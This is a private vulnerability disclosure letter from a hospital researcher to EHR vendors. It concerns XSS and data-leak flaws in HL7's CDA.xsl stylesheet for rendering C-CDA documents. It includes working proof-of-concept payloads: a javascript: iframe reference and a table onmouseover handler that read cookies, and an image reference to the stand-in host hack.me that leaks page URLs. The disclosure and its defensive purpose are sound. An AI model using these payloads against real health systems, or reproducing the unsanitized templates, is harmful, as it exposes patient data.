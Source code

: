 ﻿### Dear EHR Vendor,

As a medical informatics researcher at Boston Children's Hospital, I'm
writing to share some security considerations pertinent to any EHR that
displays Consolidated CDA documents for Meaningful Use (especially in a Web
browser environment). I would appreciate if you could ensure that the message
below reaches someone on your security team.

Best,

Josh Mandel, MD  
Lead Architect, SMART Platforms  
Harvard Medical School / Boston Children's Hospital  

---

### Dear Security Team,

I'm writing to report *potential security vulnerabilities* in the display of
Consolidated CDA documents. To be clear, I haven't tested whether your EHR
products are vulnerable to the issues below, but I have found that *these vulnerabilities 
affect some production EHR systems*, so I wanted to share this report with
Web-based EHR vendors privately before I describe it in public on the [SMART Platforms
blog](http://smartplatforms.org).

In short, the concern has to do with the use of XSLT "stylesheets" to
display externally-supplied C-CDA documents in the EHR. To be specific:
**the CDA.xsl stylesheet provided by HL7 (which has been broadly adopted by many EHR vendors) can  leave EHRs vulnerable to attacks by maliciously-composed documents.**

The "TL;DR" version is: If you're using XSLT stylesheets to render C-CDAs in
your EHR, make sure you understand the security implications. Otherwise you
could be vulnerable to a data breach.

**I would appreciate if you could reply to me** so I can track the dissemination of
this notice. My plan is publish a public blog post on
3/21/2014. If you discover that your system is vulnerable and you need more
time to repair it, please let me know prior to 3/20, and I can delay publication if necessary.

Best,

  Josh Mandel, MD  
  Lead Architect, SMART Platforms  
  Harvard Medical School / Boston Children's Hospital


### Three fundamental attacks

Many vendors appear to be using (slightly tweaked versions of) the
[CDA.xsl](https://github.com/chb/sample_ccdas/blob/master/CDA.xsl) that comes
with HL7's C-CDA release. This provides potential attackers with a highly
visible, leveragable target.

My analysis revealed *at least three ways to craft a malicious C-CDA*. 
The first two vulnerabilities allow the execution of arbitrary JavaScript
code within the C-CDA viewer. For example, **an attacker could steal browser
cookies and application state, and them back to an external server**. The third
vulnerability allows the C-CDA viewer URL to leak to an external server. 

#### 1. Unsanitized `nonXMLBody/text/reference/@value` can execute JavaScript
One opportunity for injection attacks is the default handling of a `nonXMLBody` CDA. 

```
<xsl:template match='n1:component/n1:nonXMLBody'>
  <xsl:choose>
  <!-- if there is a reference, use that in an IFRAME -->
  <xsl:when test='n1:text/n1:reference'>
  <IFRAME name='nonXMLBody' id='nonXMLBody' WIDTH='80%' HEIGHT='600' src='{n1:text/n1:reference/@value}' />
</xsl:when>
```

This means an attacker can execute arsbitrary JavaScript by supplying a reference like:


```
<nonXMLBody>
  <text>
    <reference value="javascript:alert(parent.document.cookie);"/>
  </text>
</nonXMLBody>
```

The XSLT-output HTML rendering would include the following dangerous snippet:

```
  <iframe src="javascript:alert(parent.document.cookie);"></iframe>
```

#### 2. Unsanitized `table/@onmouseover` can execute JavaScript

A valid C-CDA document is not allowed to provide `table/@onmouseover`
attributes. But if invalid documents are allowed into a system, then the
following permissive "copy all" can be dangerous:

```
<!-- Tables -->
<xsl:template
  match="n1:table/@*|n1:thead/@*|n1:tfoot/@*|n1:tbody/@*|n1:colgroup/@*|n1:col/@*|n1:tr/@*|n1:th/@*|n1:td/@*">
  <xsl:copy>
    <xsl:copy-of select="@*" />
    <xsl:apply-templates />
  </xsl:copy>
```

What this says is: "when you find a `table` in the C-CDA document, just copy
all of its XML attributes right into the rendered document." An attacker can use
this to inject JavaScript in the resulting document. For example, an attacker
could steal cookies and application state, and post them back to an external server.

A source C-CDA document would supply a table like:

```
<table 
   onmouseover="alert(document.cookie);"
   style="height: 100%; width: 100%; position: fixed; left: 0px; top: 0px;">
</table>
```

... and the XSLT-output HTML rendering would contain the source `table` element verbatim.


#### Unsanitized `observationMedia/value/reference/@value` can leak state via HTTP `Referer` headers

Searching CDA.xsl for the term `img`, reveals two places where image tags are
emitted.  Both occur within the `renderMultiMedia` template definition:

```
<xsl:template match="n1:renderMultiMedia">
  <xsl:variable name="imageRef" select="@referencedObject" />
      <!-- snipped for brevity -->
      <xsl:if
        test="//n1:observationMedia[@ID=$imageRef]/n1:value[@mediaType='image/gif' or @mediaType='image/jpeg']">
        <br clear="all" />
        <xsl:element name="img">
          <xsl:attribute name="src"><xsl:value-of
              select="//n1:observationMedia[@ID=$imageRef]/n1:value/n1:reference/@value" /></xsl:attribute>
        </xsl:element>
      </xsl:if>
      <!-- snipped for brevity -->
</xsl:template>
```

By constructing an appropriate `section` in a C-CDA document to act as input to
the template above, an attacker can cause the browser to leak the current page
URL to `https://hack.me`:

```
<text>
  This image loads from an external server...
  <renderMultiMedia referencedObject="MM1"></renderMultiMedia>
</text>
<entry>
  <observationMedia ID="MM1">
    <id root="10.23.4567.345"/>
    <value xsi:type="ED" mediaType="image/jpeg">
      <reference value="https://hack.me/leaked-from-image.png"/>
    </value>
  </observationMedia>
</entry>
```

The XSLT-output HTML rendering would include the potentially dangerous snippet:

```
<img src="https://hack.me/leaked-from-image.png"></img>
```

Each time the document is viewed, the browser sends an HTTP `Referer` header to `hack.me` that inclues the source page URL. This can be dangerous if any private session state is embedded in that URL.
